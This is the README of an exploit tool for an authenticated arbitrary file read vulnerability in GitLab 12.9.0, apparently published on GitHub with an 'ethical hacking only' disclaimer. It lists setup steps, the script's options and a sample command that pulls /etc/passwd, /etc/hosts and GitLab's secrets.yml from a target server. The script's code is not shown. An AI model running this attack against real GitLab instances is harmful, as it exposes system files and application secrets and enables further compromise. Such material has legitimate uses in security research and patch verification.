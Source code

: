 ## The warn

For demonstration purpose and ethical hacking only.

## The what

A (wanted to be) better script than what can be found on exploit-db about the authenticated arbitrary read file on GitLab v12.9.0. 

## The how

1. Meet the dependency (you probably already have the rest)

`pip3 install requests python-gitlab`

2. Get an API token using your credentials

[https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html)

3. Profit?

```
$ python3 gitlab-12.9.0-lfi.py -h
usage: gitlab-12.9.0-lfi.py [-h] -H HOST -u USER -p PASSWD -t TOKEN -f FILES

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The https URI to gitlab webroot
  -u USER, --user USER  The user name
  -p PASSWD, --passwd PASSWD
                        The user password
  -t TOKEN, --token TOKEN
                        The access token
  -f FILES, --files FILES
                        The absolute paths to the files on the Gitlab local system
```

```
$ python3 gitlab-12.9.0-file-read.py -H https://gitlab.domain.com/ -u erk3 -p test1234 -t 9nsDFXshb1txxkkZAv24 -f /etc/passwd -f /etc/hosts -f /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

